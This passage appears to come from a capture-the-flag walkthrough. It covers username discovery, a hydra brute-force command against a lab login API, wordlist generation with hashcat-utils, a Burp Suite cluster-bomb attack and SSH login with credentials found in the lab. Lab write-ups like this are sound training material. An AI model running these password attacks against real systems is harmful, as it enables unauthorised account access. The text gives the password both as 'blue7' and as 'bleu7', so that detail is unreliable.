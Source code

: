 #### What are/is the valid username(s) ?
    

Answer : james

## **TASK 4 : Attack Passwords** <a name="AttackPasswords"></a>

#### Form the hydra command to attack the login API route
    
```shell
hydra -l james -P wordlist.txt 10.10.127.143 http-post-form "/api/user/login:username=^USER^&amp;password=^PASS^:F=incorrect" -V
```

#### How many passwords were in your wordlist?
    
Form the wordlist.txt from known favorites color and number (hint from james "forgotten password") with HASHCAT-UTILS and the two files numbers.txt and colors.txt :

```console
cp numbers.txt /opt/hashcat-utils/src  
cp colors.txt /opt/hashcat-utils/src  
cd /opt/hashcat-utils/src  
./combinator.bin colors.txt numbers.txt &gt; wordlist.txt  
wc wordlist.txt  
180
```

Answer : 180

#### What was the user's password?
    
I do a cluster bomb attack with BURPSUITE and the wordlist.txt and i get the result blue7 password match with a different length.

Answer : bleu7

#### Login as the user to the platform
    

No answer but James let us a note as reminder with his SSH password :dak4ddb37b

#### What's the user's SSH password?
    

Answer : dak4ddb37b

#### Log in as the user to SSH with the credentials you have.
    
```console
ssh james@10.10.127.143
```

No answer

#### What's the user flag?
    